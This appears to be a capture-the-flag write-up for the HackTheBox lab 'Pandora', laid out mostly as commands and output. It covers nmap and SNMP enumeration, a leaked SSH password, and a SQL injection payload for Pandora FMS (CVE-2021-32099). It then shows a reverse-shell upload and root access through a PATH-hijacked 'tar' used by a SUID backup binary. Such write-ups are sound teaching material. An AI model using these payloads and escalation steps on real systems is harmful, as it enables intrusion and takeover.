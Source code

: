 #### Initial TCP Scan
```
nmap -sC -sV 10.10.11.136 -oN pandora.nmap

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
9001/tcp open  http    PHP cli server 5.5 or later
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



#### Findings UDP Scan
```
sudo nmap  -sU 10.10.11.136 -oN udp.nmap -vv
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 63

sudo nmap -p 161 -sU -sC -sV 10.10.11.136
826:
|     Name: sh
|     Path: /bin/sh
|     Params: -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'	

ssh daniel@10.10.11.136 
password: HotelBabylon23
```
Found 3 Users
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
#### Port Forwarding with SSH
```
ssh -L 8000:localhost:80 daniel@10.10.11.136

http://127.0.0.1:8000/pandora_console/
```
#### Pandora FMS 742:POC CVE-2021-32099 
```
https://github.com/ibnuuby/cve-2021-32099
https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained
```
#### Using the link below in Browser and refreshing Pandora_console page, we get access to Admin Panel.
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```
#### Uploading revershell.php
```
Admin Tools > File Manager
```
#### Getting a shell
Navigating to browser URL
```
127.0.0.1:8000/pandora_console/images/revshell.php
```
#### SSH connection with Matt User
```
Exporting (Kali) id_rsa.pub to (Matt) .ssh/authorized_keys
```
#### Finding Sudo Permissions in Root
```
find / -perm -u=s -type f 2>/dev/null
```
Interesting: ```/usr/bin/pandora_backup```

#### Getting Root
```
echo "/bin/bash" > tar
chmod +x tar
export PATH=$(pwd):$PATH
```
Run: ```/usr/bin/pandora_backup```

We are Root!
